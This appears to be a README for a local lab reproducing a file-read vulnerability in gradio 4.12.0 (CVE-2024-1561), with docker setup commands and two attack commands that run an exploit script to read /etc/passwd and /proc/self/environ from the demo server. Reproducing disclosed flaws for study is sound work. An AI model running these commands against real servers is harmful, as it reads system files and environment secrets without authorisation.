 # gradio 4.12.0 LFI Demo - CVE-2024-1561
Report: https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338
Resources:
   - https://www.gradio.app/changelog#4-12-0


## Overview
...


## Commands

### Terminal 1 - Service
```bash
docker build -t gradio-lfi-demo:4.12.0 --no-cache .
docker run -it -v ./app.py:/app/app.py -p 7860:7860 gradio-lfi-demo:4.12.0
```

### Terminal 2 - Attack
```bash
python exploit.py --server="127.0.0.1" --port="7860" --target_file="/etc/passwd"
```

**Additionally:**

```bash
python exploit.py --server="127.0.0.1" --port="7860" --target_file=/proc/self/environ
```

